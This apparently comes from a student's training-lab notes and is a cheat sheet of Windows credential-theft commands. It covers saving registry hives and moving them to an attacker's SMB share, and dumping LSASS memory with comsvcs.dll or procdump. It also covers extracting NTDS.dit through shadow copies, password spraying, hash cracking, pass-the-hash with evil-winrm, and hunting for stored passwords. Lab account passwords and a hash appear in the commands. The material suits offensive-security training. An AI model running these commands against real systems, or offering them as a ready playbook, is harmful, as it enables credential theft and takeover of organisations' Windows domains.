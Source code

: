 ## Attacking SAM
|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|
```bash
# If I'm an admin I can copy the Refistry hives 
reg.exe save hklm\sam C:\sam.save

# Creating a Share with smbserver.py
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# moving hive copies to share
move sam.save \\10.10.15.16\CompData

# dumb hashed
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

# Running Hashcat against NT Hashes
hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

# Dumping LSA Secrets Remotely
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

# Dumping SAM Remotely
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

```

## Attacking LSASS
```bash
# dump files created with task manger loction
C:\Users\loggedonusersdirectory\AppData\Local\Temp

# Finding LSASS PID in cmd for `lsass.exe`
tasklist /svc

# Finding LSASS PID in PowerShell
Get-Process lsass

# Creating lsass.dmp using PowerShell(most modern AV tools recognize this as malicious and prevent the command from executing)
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp 
# if the above command won't work use this
procdump -accepteula -ma 640 lsass.dmp
# also can use the taskManger > Detils > lsass.exe and create dump file

# pypykatz to parse the secrets hidden in the LSASS process memory dump
pypykatz lsa minidump /home/peter/Documents/lsass.dmp

# Cracking the NT Hash with Hashcat
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Attacking Active Directory & NTDS.dit
#### Username Convention In Orginitztions
|Username Convention|Practical Example for Jane Jill Doe|
|---|---|
|`firstinitiallastname`|jdoe|
|`firstinitialmiddleinitiallastname`|jjdoe|
|`firstnamelastname`|janedoe|
|`firstname.lastname`|jane.doe|
|`lastname.firstname`|doe.jane|
|`nickname`|doedoehacksstuff|
Often, an email address's structure will give us the employee's username (structure: username@domain)

```bash
# Creating a Custom list of Usernames
./username-anarchy -i /home/ltnbob/names.txt 

# Launching the Attack with CrackMapExec
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

# location of NTDS.dit 
%systemroot$/ntds

# Manuele Method
----------------------------------------------------------------------------------------
# Connecting to a DC with Evil-WinRM
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'

# Checking Local Group Membership
net localgroup

# Checking User Account Privileges including Domain
net user bwilliamson

# Creating Shadow Copy of C:
vssadmin CREATE SHADOW /For=C:

# Copying NTDS.dit from the VSS
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
----------------------------------------------------------------------------------------

# A Faster Method: Using cme to Capture NTDS.dit
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds

# Pass-the-Hash with Evil-WinRM Example
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

## Credential Hunting in Windows
### Key Terms That Can Help Us Discover Some Credentials
|   |   |   |
|---|---|---|
|Passwords|Passphrases|Keys|
|Username|User account|Creds|
|Users|Passkeys|Passphrases|
|configuration|dbcredential|dbpassword|
|pwd|Login|Credentials|

```bash
# Running Lazagne All and creates a .txt file with the output
start lazagne.exe all -oN

# Using findstr
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml


```
places to keep in mind when credential hunting:
- Passwords in Group Policy in the SYSVOL share
- Passwords in scripts in the SYSVOL share
- Password in scripts on IT shares
- Passwords in web.config files on dev machines and IT shares
- unattend.xml
- Passwords in the AD user or computer description fields
- KeePass databases --> pull hash, crack and get loads of access.
- Found on user systems and shares
- Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, [Sharepoint](https://www.microsoft.com/en-us/microsoft-365/sharepoint/collaboration)
